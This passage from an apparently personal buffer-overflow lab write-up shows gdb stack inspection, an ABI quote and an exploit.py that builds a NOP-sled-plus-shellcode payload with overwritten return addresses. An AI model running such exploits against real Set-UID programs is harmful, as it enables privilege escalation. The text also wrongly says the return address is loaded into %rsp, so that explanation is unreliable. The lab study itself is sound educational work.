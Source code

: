 If we set a breakpoint at the start of the <code>bof</code> function and run again, we get:

```console
Breakpoint 1, bof (str=0x2 <error: Cannot access memory at address 0x2>)
    at stack.c:16
16	{
gdb-peda$ x $rsp
0x7fffffffdc18:	0x000055555555535c
gdb-peda$ x $rbp
0x7fffffffe020:	0x00007fffffffe260
```

Ater typing <code>next</code>, we get:

```console
20	    strcpy(buffer, str);       
gdb-peda$ x $rsp
0x7fffffffdb30:	0x00007fffffffdac0
gdb-peda$ x $rbp
0x7fffffffdc10:	0x00007fffffffe020
```

To better understand the stack frame layout in x86-64 architecture, I went through [AMD64 ABI 1.0](https://raw.githubusercontent.com/wiki/hjl-tools/x86-psABI/x86-64-psABI-1.0.pdf) published on December 22, 2018 and found something really helpful:

> Each function has a frame on the run-time stack. This stack grows downwards from high addresses ... The value <code>%rsp + 8</code> is always a multiple of $16$ ($32$ or $64$) when control is transferred to the function entry point. The stack pointer, <code>%rsp</code>, always points to the end of the latest allocated stack frame. The $128$-byte area beyond the location pointed to by <code>%rsp</code> is considered to be reserved and shall not be modified by signal or interrupt handlers. Therefore, functions may use this area for temporary data that is not needed across function calls. In particular, leaf functions may use this area for their entire stack frame, rather than adjusting the stack pointer in the prologue and epilogue. This area is known as the *red zone* ... After the argument values have been computed, they are placed either in registers or pushed on the stack ... The size of each argument gets rounded up to eight bytes (therefore the stack will always be eight-byte aligned).

It should be noted that the first six arguments are not pushed on the stack but stored in registers on a $64$-bit architecture whereas in a $32$-bit architecture all the function arguments are pushed on the stack. To conclude, the latest allocated stack frame from low to high addresses is arranged as follows: $128$-byte red zone, register <code>%rsp</code>, local variables, register <code>%rbp</code>, saved return address (which is the value in register <code>%rip</code>), parameters. Whenever a function returns, the "saved return address" is popped from the stack and loaded in register <code>%rsp</code> and execution continues from that address.

The offset can be found by:

```console
gdb-peda$ p/x (unsigned long long) $rsp - (unsigned long long) &buffer
$1 = 0xd8
```

Then, exploit.py can be modified as:

```python
content = bytearray(0x90 for i in range(517))

start = 517 - len(shellcode)
content[start:start + len(shellcode)] = shellcode

ret    = 0x7fffffffdb40 + 220
L = 8
addr = (ret).to_bytes(L,byteorder='little')
content[0:0xd7] = addr * 27

with open('badfile', 'wb') as f:
  f.write(content)
```


[^1]: From Daniel P. Bovet and Marco Cesati, *Understanding the Linux Kernel, Third Edition*, O'Reilly, 2006.
[^2]: A privileged program is one that can give users extra privileges beyond that are already assigned to them. A Set-Root-UID program is a privileged program because it allows users to gain the root privilege during the execution of the programs. For Set-UID programs in UNIX and UNIX-like operating systems, which stands for **set user ID on execution**, the effective <code>uid</code> is the owner of the program, while the real <code>uid</code> is the user of the program. Windows does not have the notion of Set-UID. A different mechanism is used for implementing privileged functionality. A developer would write a privileged program as a service and the user sends the command line arguments to the service using Local Procedure Call.
[^3]: Continue to the next source line in the current (innermost) stack frame. This is similar to <code>step</code>, but function calls that appear within the line of code are executed without stopping. Execution stops when control reaches a different line of code at the original stack level that was executing when you gave the <code>next</code> command.